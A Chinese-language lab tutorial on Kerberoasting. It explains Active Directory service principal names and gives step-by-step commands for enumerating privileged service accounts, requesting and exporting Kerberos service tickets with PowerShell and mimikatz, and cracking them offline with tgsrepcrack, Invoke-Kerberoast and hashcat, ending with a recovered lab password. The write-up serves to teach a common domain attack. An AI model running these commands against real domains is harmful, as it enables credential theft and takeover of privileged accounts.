## 前言

 Kerberoasting是域渗透中经常使用的一项技术，需要了解SPN的相关查询方法以及SPN是什么

## 基本概念

### SPN

[官方文档](https://docs.microsoft.com/en-us/windows/desktop/AD/service-principal-names)

SPN全称`Service Principal Names`，SPN是服务器上所运行服务的唯一标识，每个使用Kerberos的服务都需要一个SPN，其中SPN分为两种，

1. 注册在AD上机器帐户(Computers)下

   > 当一个服务的权限为`Local System`或`Network Service`，则SPN注册在机器帐户(Computers)下

2. 注册在域用户帐户(Users)下

   > 当一个服务的权限为一个域用户，则SPN注册在域用户帐户(Users)下

SPN 的格式如下：

`serviceclass/host:port/servicename`

> [!NOTE]
>
> serviceclass可以理解为服务的名称，常见的有www, ldap, SMTP, DNS, HOST等
>
> host有两种形式，FQDN和NetBIOS名，例如server01.test.com和server01
>
> 如果服务运行在默认端口上，则端口号(port)可以省略

首先注册一个SPN服务

> [!NOTE]
>
> 在 Active Directory 允许在域中的任何计算机上创建和管理用户及其 SPN，只要有足够的权限

在域成员/域控机器上（这里采用在域控机器使用域管创建）

1. 创建用户账户

   有 Active Directory 权限的计算机上使用 PowerShell 创建用户账户

   > [!NOTE]
   >
   > 需要确保已经安装了 **Active Directory 模块**

   ```shell
   Import-Module ActiveDirectory
   # 创建一个新用户账户
   New-ADUser -Name "TestServiceUser" -UserPrincipalName testserviceuser@god.org -AccountPassword (ConvertTo-SecureString -AsPlainText "YourPassword123!" -Force) -Enabled $true
   ```

2. 注册SPN

   ```shell
   setspn -A HTTP/testserviceuser.god.org testserviceuser
   ```

3. 确认 SPN 是否创建成功：

   ```shell
   setspn -L testserviceuser
   ```



### 查询SPN

对域控制器发起LDAP查询，这是正常kerberos票据行为的一部分，因此查询SPN的操作很难被检测

### 使用SetSPN

Win7和Windows Server2008自带的工具

```shell
setspn -q */*
```

指定域查询所有SPN

```shell
setspn -T god -q */*
```

输出结果实例(可以看到我们的创建的SPN HTTP服务已经出现在这里了)



以CN开头的每一行代表一个帐户，其下的信息是与该帐户相关联的SPN

对于上面的输出数据，机器帐户(Computers)为

```
CN=OWA,OU=Domain Controllers,DC=god,DC=org
CN=ROOT-TVI862UBEH,CN=Computers,DC=god,DC=org
CN=stu1,OU=dev,DC=god,DC=org
```

域用户帐户(Users)为：

```
CN=krbtgt,CN=Users,DC=god,DC=org
CN=TestServiceUser,CN=Users,DC=god,DC=org
```

注册在域用户帐户(Users)下的SPN有两个：`kadmin/changepw`和`HTTP/testserviceuser.god.org`

## Kerberoasting 原理

#### Kerberos认证过程

参考kerberos协议

用户将会收到由目标服务实例的NTLM hash加密生成的TGS(service ticket)，加密算法为`RC4-HMAC`；站在利用的角度，当获得这个TGS后，我们可以尝试穷举口令，模拟加密过程，生成TGS进行比较。如果TGS相同，代表口令正确，就能获得目标服务实例的明文口令

#### Windows系统通过SPN查询获得服务和服务实例帐户的对应关系

这里举一个例子：

用户a要访问MySQL服务的资源，进行到`tgs_reply`时，步骤如下：

1. Domain Controller查询MySQL服务的SPN

   如果该SPN注册在机器帐户(Computers)下，将会查询所有机器帐户(Computers)的servicePrincipalName属性，找到对应的帐户

   如果该SPN注册在域用户帐户(Users)下，将会查询所有域用户(Users)的servicePrincipalName属性，找到对应的帐户

2. 找到对应的帐户后，使用该帐户的NTLM hash，生成TGS

域内的主机都能查询SPN

域内的任何用户都可以向域内的任何服务请求TGS

综上，域内的任何一台主机，都能够通过查询SPN，向域内的所有服务请求TGS，拿到TGS后对其进行暴力破解

对于破解出的明文口令，只有域用户帐户(Users)的口令存在价值，不必考虑机器帐户的口令(无法用于远程连接)

因此，高效率的利用思路如下：

1. 查询SPN，找到有价值的SPN，需要满足以下条件：
   1. 该SPN注册在域用户帐户(Users)下
   2. 域用户账户的权限很高
2. 请求TGS
3. 导出TGS
4. 暴力破解

## 利用方法

### 0x1

#### 获得有价值的SPN

> [!NOTE]
>
> 1. 该SPN注册在域用户帐户(Users)下
>
> 2. 域用户账户的权限很高

可以选择以下三种方法：

1. 使用`powershell`模块`Active Directory`

   `powershell`模块`Active Directory` 需要提前安装，域控制器一般会安装

   ```shell
   import-module ActiveDirectory
   get-aduser -filter {AdminCount -eq 1 -and (servicePrincipalName -ne 0)} -prop * |select name,whencreated,pwdlastset,lastlogon
   ```

   对于未安装`Active Directory`模块的系统，可以通过如下命令导入`Active Directory`模块：

   ```shell
   import-module .\Microsoft.ActiveDirectory.Management.dll
   ```

   下载[Microsoft.ActiveDirectory.Management.dll](https://github.com/3gstudent/test/blob/master/Microsoft.ActiveDirectory.Management.dll)，并导入

   由于我创建的`TestServiceUser`权限很低，不是管理员权限，所以这里我对`AdminCount -eq 1`这里做了删除

   

2. 使用[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

   ```shell
   # 这里powershell 默认不信任未签名的ps1脚本，需要自己修改信任
   Import-Module .\PowerView.ps1
   Get-NetUser -spn -AdminCount|Select name,whencreated,pwdlastset,lastlogon
   ```

   

3. 使用kerberoast

   [powershell脚本](https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1)

   [vbs脚本](https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.vbs)

   这里以vbs举例

   ```shell
   cscript GetUserSPNs.vbs
   ```

   

#### 请求TGS

请求指定TGS

```shell
$SPNName = 'HTTP/testserviceuser.god.org'
Add-Type -AssemblyNAme System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPNName
```

执行后输入`klist`查看内存中的票据，可找到获得的TGS



#### 导出TGS

```shell
# 使用mimikatz
kerberos::list /export
```



#### 破解TGS

利用[kerberoast](https://github.com/nidem/kerberoast)中的`tgsrepcrack.py`即可获取密码为`hongrisec@2024`



以及另外一个[kerberoast](https://github.com/xan7r/kerberoast)，通过ps脚本解析成hashcat可破解的哈希格式

```shell
Import-Module .\autokerberoast_noMimikatz.ps1
Invoke-AutoKerberoast
# 其他参数
Invoke-AutoKerberoast -GroupName "Domain Admins"
Invoke-AutoKerberoast -Domain <Domain>
Invoke-AutoKerberoast -SPN <SPN>
Invoke-AutoKerberoast -DomainController <DomainController>
```



### 0x2

自动实现，并且不需要mimikatz，普通用户权限即可，参考资料：

`http://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/`

[代码地址](https://github.com/EmpireProject/Empire/commit/6ee7e036607a62b0192daed46d3711afc65c3921)

使用`System.IdentityModel.Tokens.KerberosRequestorSecurityToken`请求TGS，在返回结果中提取出TGS，输出的TGS可选择John the Ripper或Hashcat进行破解

在域内一台主机上以普通用户权限执行:

```shell
Invoke-Kerberoast -AdminCount -OutputFormat Hashcat | fl
```

`-AdminCount`表示选择高权限的用户



> [!TIPS]
>
> 提取出来的hash格式不对需要在密文*后面加上$符号



只提取出hash的参数如下：

```shell
Invoke-Kerberoast -AdminCount -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation
```

使用hashcat破解的参数如下：

```shell
hashcat -m 13100 ./hash.txt ./test.list -o found.txt --force
```




## 参考文献

https://3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Kerberoasting